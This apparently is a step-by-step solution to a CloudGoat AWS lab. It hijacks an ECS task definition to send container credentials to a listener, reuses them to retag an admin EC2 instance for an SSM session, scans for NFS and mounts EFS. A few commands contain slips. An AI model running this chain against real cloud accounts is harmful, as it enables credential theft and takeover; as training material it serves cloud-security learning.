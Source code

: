 1. Connect to the start ec2 "Ruse_Box" using the public IP and SSH key provided.

    `ssh -i cloudgoat ubuntu@<IP ADDRESS>`

2. Configure the role credentials 

    `aws configure --profile ruse`

3. List the privileges 
`aws iam list-policies --profile ruse`

4. List ec2 instances 

    `aws ec2 describe-instances --profile ruse `

5. List all available ECS clusters 

    `aws ecs list-clusters --profile ruse`

6. List services in cloudgoat cluster

    `aws ecs list-services --cluster <CLUSTER NAME> --profile ruse`

7. Download task definition 

    `aws ecs describe-task-definition --task-definition <TASK_NAME>:<VERSION> --profile ruse > task_def.json `

8. Download template to register a new task

    `aws ecs register-task-definition --generate-cli-skeleton --profile ruse > task_template.json`

9. Now use task_def.json to fill out template.json with the desired payload. Reference our blog for details [here](https://rhinosecuritylabs.com/aws/weaponizing-ecs-task-definitions-steal-credentials-running-containers/)

10. Now register the template to replace the currently running task.

    `register-task-definition --cli-input-json file://task_template.json  --profile ruse`

11. Update the ECS service with the newly registered task definition.

    `aws ecs update-service --cluster <CLUSTER NAME> --service <SERVICE NAME> --task-definition <NEW TASK DEFINITION NAME>`

12. Wait for the task to run and POST the credentials to your listener

13. With the new creds add them to "ruse_box"

    `aws configure --profile ecs`

14. Modify admin ec2 tags

    `aws ec2 create-tags --resources <INSTANCE ID> --tags Key=StartSession,Value=true`

15. Using ecs creds start a session on admin ec2 

    `aws ssm start-session --target <INSTANCE ID> --profile ecs`

16. Looking at the ec2 instances we see the admin ec2 only has a single port open. We Nmap scan this port.

    `nmap -Pn -P 2049 --open 10.10.10.0/24 `

17. Mount discovered ec2 

    `cd /mnt`
`sudo mkdir /efs`
`sudo mount -t nfs4 -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <IP ADDRESS OF EFS>:/ efs`

